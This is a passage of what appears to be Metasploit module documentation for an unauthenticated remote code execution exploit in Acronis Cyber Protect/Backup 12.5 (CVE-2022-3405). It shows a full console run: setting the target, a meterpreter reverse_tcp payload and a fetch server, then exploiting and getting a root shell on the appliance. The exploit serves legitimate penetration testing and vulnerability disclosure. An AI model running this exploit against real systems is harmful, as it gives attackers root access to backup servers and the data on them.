 ```msf
  https://nvd.nist.gov/vuln/detail/CVE-2022-3405
  https://herolab.usd.de/security-advisories/usd-2022-0008/
  https://attackerkb.com/topics/WVI3r5eNIc/cve-2022-3405


View the full module info with the info -d command.
```
### Acronis Cyber Backup 12.5 build 14330 VMware appliance - Linux target
```msf
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set target 0
target => 0
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set FETCH_SRVHOST 192.168.201.8
FETCH_SRVHOST => 192.168.201.8
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > set FETCH_WRITABLE_DIR /tmp
FETCH_WRITABLE_DIR => /tmp
msf6 exploit(multi/acronis_cyber_protect_unauth_rce_cve_2022_3405) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] The target appears to be vulnerable. Acronis Cyber Protect/Backup 12.5.14330
[*] Retrieve first online target registered at the Acronis Cyber Protect/Backup appliance.
[*] Found online target matching your target setting Unix/Linux Command.
[+] hostId: 345C3F1E-92C3-4E92-8EF8-AC6BF136BB83
[+] parentId: phm-group.7C2057CC-8D32-40CA-9B83-4A8E73078F7F.disks
[+] key: phm.F70D1B08-5097-4CE5-8E22-F9E0DB75401F@345C3F1E-92C3-4E92-8EF8-AC6BF136BB83.disks
[*] type: machine
[*] hostname: AcronisAppliance-AC319
[*] IP: 192.168.201.6
[*] OS: GNU/Linux
[*] ARCH: linux
[*] ONLINE: true
[*] Import backup plan with payload for target with hostId: 345C3F1E-92C3-4E92-8EF8-AC6BF136BB83.
[*] Executing Unix/Linux Command with payload cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Sending stage (3045380 bytes) to 192.168.201.6
[*] Meterpreter session 22 opened (192.168.201.8:4444 -> 192.168.201.6:60862) at 2024-10-23 12:35:44 +0000
[+] Backup plan is successful removed.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.201.6
OS           : CentOS 7.4.1708 (Linux 3.10.0-693.11.6.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/var/lib/Acronis/mms
meterpreter >
```